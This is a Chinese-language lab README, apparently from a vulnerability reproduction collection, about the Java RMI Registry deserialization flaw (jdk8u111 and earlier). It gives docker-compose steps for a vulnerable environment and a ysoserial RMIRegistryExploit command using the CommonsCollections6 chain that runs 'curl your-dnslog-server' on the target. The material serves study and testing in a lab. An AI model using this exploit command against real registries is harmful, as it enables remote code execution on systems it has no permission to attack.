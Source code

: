 # Java RMI Registry 反序列化漏洞(<=jdk8u111)

Java Remote Method Invocation 用于在Java中进行远程调用。RMI存在远程bind的功能(虽然大多数情况不允许远程bind)，在bind过程中，伪造Registry接收到的序列化数据(实现了Remote接口或动态代理了实现了Remote接口的对象)，使Registry在对数据进行反序列化时触发相应的利用链(环境用的是commons-collections:3.2.1).

## 漏洞环境

执行如下命令编译及启动RMI Registry和服务器：

```
docker-compose build
docker-compose run -e RMIIP=your-ip -p 1099:1099 rmi
```

其中，`your-ip`是服务器IP，客户端会根据这个IP来连接服务器。

环境启动后，RMI Registry监听在1099端口。

## 漏洞复现

通过ysoserial的exploit包中的RMIRegistryExploit进行攻击

```bash
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit your-ip 1099 CommonsCollections6 "curl your-dnslog-server"
```

![image-20200206133552945](assets/README/image-20200206133552945.png)

Registry会返回报错，这个没关系正常，命令会正常执行。
